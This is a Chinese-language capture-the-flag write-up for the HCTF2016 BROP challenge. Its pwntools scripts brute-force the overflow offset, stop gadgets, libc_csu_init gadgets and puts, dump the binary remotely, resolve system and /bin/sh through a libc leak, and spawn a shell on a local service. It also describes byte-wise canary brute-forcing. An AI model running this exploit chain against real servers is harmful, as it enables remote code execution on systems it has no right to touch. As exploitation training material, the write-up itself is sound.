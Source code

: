 #HCTF2016-BROP
题目并没有给原文件，那么就必须采取爆破的方式将我们想要的信息都给猜出来。  
解题大概思路：  
1、求出栈溢出的偏移。  
2、求出一个正常返回到main的函数位置。（来判断下面穷举时的代码）。  
3、因为__libc_csu_init一般都会用到，其中的通用gadgets在程序的其他位置中也并不常见，因此也将其作为猜解的目标。求出通用gadgets的位置。    
4、确定put函数的位置。  
5、得到put函数之后将前面的文件dump下来，求出got表中的位置，再求出加载的实际位置。  
6、确定libc，求出system函数和/bin/sh的位置。
7、利用。


ps:如果存在canary，canary在程序重启后不变，那么可以按字节对canary进行爆破。比如先尝试改变第一个字节，如果程序不能继续跑起来，就说明第一个字节不对，如果程序能跑起来，就说明第一个字节正确，继续跑下一个字节  


###求栈溢出的偏移
```
def search_offset():
        i = 1
        while 1:
                try:
                        sh = remote("127.0.0.1",9999)
                        sh.recvuntil("WelCome my friend,Do you know password?\n")
                        payload = i * 'a'
                        sh.send(payload)
                        output = sh.recv()
                        sh.close()
                        i = i + 1
                except  Exception:
                        sh.close()
                        return i - 1
```
###求出一个可以正常返回到main函数的地址
```
def stop_gadgets():
        #addr = 0x4006b2
        addr = 0x400000
        while 1:
                try:
                        sh = remote("127.0.0.1",9999)
                        payload = 'a' * 72
                        payload += p64(addr)
                        sh.recvuntil("WelCome my friend,Do you know password?\n")
                        sh.sendline(payload)
                        sh.recv()
                        sh.close()
                        print 'the addr is :0x%x' % (addr)
                        break
                except Exception:
                        addr = addr + 1
                        sh.close()
```
###求出通用gadgets的位置，为了与返回到main函数的gadget作区分，还要做一个判断
```
def find_brop_gadgets():
        addr = 0x4007b0
        while 1:
                try:
                        sh = remote("127.0.0.1",9999)
                        payload = 'a' * 72
                        payload += p64(addr)
                        payload += p64(1) * 6
                        payload += p64(stop_gadget)
                        sh.recvuntil("WelCome my friend,Do you know password?\n")
                        sh.sendline(payload)
                        sh.recv()
                        sh.close()
                        print 'the addr is :0x%x' % (addr)
                        return addr
                except Exception:
                        addr = addr + 1
                        sh.close()

def check_brop_gadgets():
        print hex(addr)
        try:
                sh = remote("127.0.0.1",9999)
                payload = 'a' * 72
                payload += p64(addr) + p64(1)*7
                sh.recvuntil("WelCome my friend,Do you know password?\n")
                sh.sendline(payload)
                sh.recv()
                sh.close()
                print 'false'
        except Exception:
                print 'true'
```
###确定put函数在plt中的位置
```
def find_put_plt():
        addr = 0x400550
        while 1:
                try:
                        payload = 72 * 'a'
                        payload += p64(brop_gadget+9)
                        payload += p64(0x400000)
                        payload += p64(addr)
                        payload += p64(stop_gadget)
                        sh = remote("127.0.0.1",9999)
                        sh.recvuntil("WelCome my friend,Do you know password?\n")
                        sh.sendline(payload)
                        output = sh.recv()
                        sh.close()
                        if output.startswith('\x7fELF'):
                                print 'the addr is :0x%x' % (addr)
                                return addr
                        else:
                                addr = addr + 1
                except Exception:
                        sh.close()
                        addr = addr + 1
```
这里存在两个知识点。
1、指向 pop r15的地址再往后一个字节就可以变成 pop rdi  
具体可以看一下两条汇编指令的机器码
![](./index_files/1.png)  
pop r15 在brop_gadgets+8处，因此 pop rdi在brop_gadgets+9处  
同理也可以控制rsi
![](./index_files/2.png) 
2、求出来的put地址是 0x400555，但其实put函数在plt中的实际位置是0x400560，当然使用求出来的地址也无所谓  
![](./index_files/3.png) 

###利用put函数把二进制文件dump下来，从而找到put函数在got表中的地址  
```
def leak():
	addr = 0x400000
	result = ""
	while (addr<0x400700):
		payload = 72 * 'a'
		payload += p64(brop_gadget+9)
		payload += p64(addr)
		payload += p64(put_gadget)
		payload += p64(stop_gadget)
		sh = remote("127.0.0.1",9999)
		sh.recvuntil("WelCome my friend,Do you know password?\n")
		sh.send(payload)
		try:
			data = sh.recv()
			sh.close()
			try:
				data = data[:data.index("\nWelCome")] 
			except Exception:
				data = data
			if (data == ""):
				data = '\x00'
		
		except Exception:
			sh.close()
			continue;
		result += data
		addr = addr + len(data)
	with open('leak_code', 'wb') as f:
    		f.write(result)
	print 'success'
```
利用ida查看二进制文件，得到地址  
![](./index_files/4.png) 
可以看到 put在got表中的地址为0x601018  
然后找到对应的libc库 ，利用偏移找到真正的system地址和/bin/sh地址，在进行利用
```
sys_addr = 0
bin_addr = 0
offset = 72
brop_gadget = 0x4007ba
stop_gadget = 0x4006b6
put_gadget = 0x400555
put_got = 0x601018

payload = 'a' * 72
payload += p64(brop_gadget+9)
payload += p64(put_got)
payload += p64(put_gadget)
payload += p64(stop_gadget)
sh = remote("127.0.0.1",9999)
sh.recvuntil("password?\n")	
sh.sendline(payload)
data = sh.recv()
put_addr = u64(data.ljust(8, '\x00'))	
libc = LibcSearcher('puts',put_addr)
libc_base = put_addr - libc.dump('puts')
sys_addr = libc_base + libc.dump('system')
bin_addr = libc_base + libc.dump('str_bin_sh')	
	
#addr = find_brop_gadgets() 
payload = 'a' * 72
payload += p64(brop_gadget+9)
payload += p64(bin_addr)
payload += p64(sys_addr)
payload += p64(stop_gadget)
sh.recvuntil("password?\n")
sh.sendline(payload)
sh.interactive()
```